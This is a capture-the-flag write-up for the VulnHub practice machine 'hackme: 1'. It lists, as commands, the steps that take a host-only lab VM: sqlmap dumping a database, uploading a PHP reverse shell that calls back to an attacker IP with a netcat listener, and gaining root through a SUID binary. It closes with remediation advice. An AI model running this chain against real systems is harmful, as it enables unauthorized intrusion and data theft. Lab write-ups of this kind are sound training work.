





# hackme: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.108 (host-only) |
| **Difficulty** | Easy (beginner-friendly) |
| **OS** | Linux |
| **Root Proof** | `uid=0(root)` via `/home/legacy/touchmenot` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/hackme-1,330/) |

## Attack Summary

nmap → web login → sign up → Burp intercept → sqlmap dump → crack super admin hash → `/welcomeadmin.php` → PHP shell upload → `/uploads/shell.php` → reverse shell → SUID `/home/legacy/touchmenot` → root

## Methodology

1. Network discovery
2. Web login portal with registration
3. SQL injection via sqlmap on authenticated request
4. PHP reverse shell upload through admin panel
5. Privilege escalation via custom SUID binary

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.108
```

Key findings:
- Port 22: SSH
- Port 80: HTTP — login portal



---

## Step 2: Web Enumeration — Create Account

Browse to `http://192.168.1.108`. A login page with a sign-up option is shown. Register an account and log in.

Intercept a POST request with Burp Suite and save it to a file:

```bash
# In Burp: right-click request → Save to file → /tmp/sql.txt
```

---

## Step 3: SQL Injection with sqlmap

```bash
# List databases
sqlmap -r /tmp/sql.txt --dbs --batch

# Dump the webapphacking database
sqlmap -r /tmp/sql.txt -D webapphacking --dump-all --batch
```

The dump reveals user credentials. The super admin account has a password hash. Crack it with an online tool or john/hashcat to obtain the admin password.



---

## Step 4: Admin Panel — PHP Reverse Shell Upload

Log in as super admin and navigate to:

```
http://192.168.1.108/welcomeadmin.php
```

The admin panel has a file upload feature. Prepare a PHP reverse shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php /tmp/shell.php
# Edit: $ip = '192.168.1.107'; $port = 1234;
```

Start a listener:

```bash
nc -lvp 1234
```

Upload `shell.php` through the admin panel.



Find the upload path:

```bash
dirb http://192.168.1.108
# Found: /uploads/
```

Trigger the shell:

```bash
curl http://192.168.1.108/uploads/shell.php
```

---

## Step 5: Privilege Escalation — SUID Binary

In the reverse shell, find SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Result: `/home/legacy/touchmenot` has SUID root.



Execute it:

```bash
cd /home/legacy
./touchmenot
id
# uid=0(root) gid=0(root) groups=0(root)
```



---

## Lessons Learned

1. **SQL injection in authenticated sessions** — sqlmap can dump entire databases from a single intercepted request
2. **File upload to RCE** — PHP files named with any extension that the server evaluates is game over
3. **Custom SUID binaries** — home-directory SUID binaries are a common CTF pattern; always run `find / -perm -u=s`
4. **Weak admin credentials** — hashed passwords in DB dumps are crackable; enforce bcrypt + salt

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection | Use PDO/prepared statements everywhere |
| Unrestricted file upload | Serve uploads from a non-executable directory; whitelist MIME types |
| SUID binary in /home | Remove SUID from non-essential binaries: `chmod u-s /home/legacy/touchmenot` |
| Weak hash algorithm | Replace MD5/SHA1 with bcrypt (cost factor ≥ 12) for password storage |
